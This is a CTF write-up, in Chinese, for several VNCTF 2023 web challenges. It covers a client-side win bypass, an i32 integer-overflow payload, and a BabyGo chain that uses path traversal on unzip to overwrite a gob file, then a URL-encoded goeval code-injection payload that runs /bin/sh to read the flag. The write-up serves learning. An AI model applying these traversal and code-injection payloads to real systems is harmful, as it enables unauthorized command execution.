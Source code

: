 ## Web
### 象棋王子
在js源码 play.js中找到赢之后执行的逻辑，直接控制台执行
![](attachments/Pasted%20image%2020230427123520.png)


![](attachments/Pasted%20image%2020230427123350.png)

flag{w3lc0m3_t0_VNCTF_2023~~~}

### 电子木鱼
rust编写的后端，要1亿功德拿flag

![](attachments/Pasted%20image%2020230427124500.png)

这里考虑将cost设置为一个极限的负数，使功德减去它的时候能够转正 
i32的大小是 -2147483648~2147483647，经典的构造极限

没有思考了，在极限那个位置reset了几次
payload `name=Cost&quantity=214748366`

![](attachments/Pasted%20image%2020230427131811.png)

### BabyGo
go语言
一共5个路由
- GET /
- GET /upload
- POST /upload
	- 禁止上传 .gob 和 .go 文件
- GET /unzip
	- 解压文件，文件路径来自与get参数拼接
- GET /backdoor
	- 解码引用user.gob  在 Power为 admin 时 可以通过 goeval.Eval() 来执行命令

>思路：上传压缩文件，解压后覆盖原有user.gob 以此引用 /backdoor来执行命令，由于在调用的时候有decode的操作，我们生成的文件也需要是对应二进制的才能decode

[Go语言二进制文件的读写操作 (biancheng.net)](http://c.biancheng.net/view/4563.html)

```go
package main

import (
    "encoding/gob"
    "fmt"
    "os"
)

type User struct {
    Path string
    Name string
    Power string
}

func main() {
    user := User{Name: "ctfer", Path: "/tmp/d7671aa466b2c69f80e4bc0cf4b6b638/", Power: "admin",}
    file, err := os.Create("./user.gob")
    if err != nil {
        fmt.Println("文件创建失败", err.Error())
        return
    }
    defer file.Close()

    encoder := gob.NewEncoder(file)
    err = encoder.Encode(user)
    if err != nil {
        fmt.Println("编码错误", err.Error())
        return
    } else {
        fmt.Println("编码成功")
    }
}
```

解压时path可控，可以直接目录穿越
path=/../../../../../tmp/d7671aa466b2c69f80e4bc0cf4b6b638/
带着参数访问unzip就可以

![](attachments/Pasted%20image%2020230427135428.png)

当backdoor回显是good，就说明已经power=admin了
![](attachments/Pasted%20image%2020230427145609.png)

接下来就是goeval的使用
[GO语言安全 — 沙箱逃逸题目分析 (qq.com)](https://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247496259&idx=1&sn=20b93256d8a5acfda5826c5d50096f63&chksm=fa5227fdcd25aeebbf9f9add2a483500a252d5ad058a92dafad394eaa1c57cf2bdb597e51b5c&scene=126&sessionid=1662436887&key=c28b5d09085340df0c20cadc0887eb0a420d5b3478fb82405c1162a5003fd87a918cab97f0023574a573ac935bbb17c54b4098410befadcc31f8320ab2775346154c10836855dd919d18f6653ef474ed1062c1b09cc3588cc8443f46baeb60df34d6211b9cc5d40cf20b4d7620e849c117bcb06d9142c9a0e852b2f08ec8a0af&ascene=15&uin=MzgxODQ4MjMz&devicetype=Windows+Server+2016+x64&version=63070517&lang=zh_CN&session_us=gh_94beeafaf804&exportkey=AzYl%2FCartrKvkaqiL%2Bd9Iv4%3D&acctmode=0&pass_ticket=L3CGnrfwXOeo2T%2Buh4YWaI7nRTXofYaJoUhuF2SbHMXZ9TQM3m3vlwD2pKPsf2tC&wx_header=0&fontgear=2)
这篇文章文末有可用的payload，中间还有goeval的分析
```
os/exec"%0a"fmt")%0afunc%09init()%7B%0acmd:=exec.Command("/bin/sh","-c","cat${IFS}/ffflllaaaggg")%0ares,err:=cmd.CombinedOutput()%0afmt.Println(err)%0afmt.Println(string(res))%0a}%0aconst(%0aMessage="fmt
```

![](attachments/Pasted%20image%2020230427150603.png)


### easyzentao

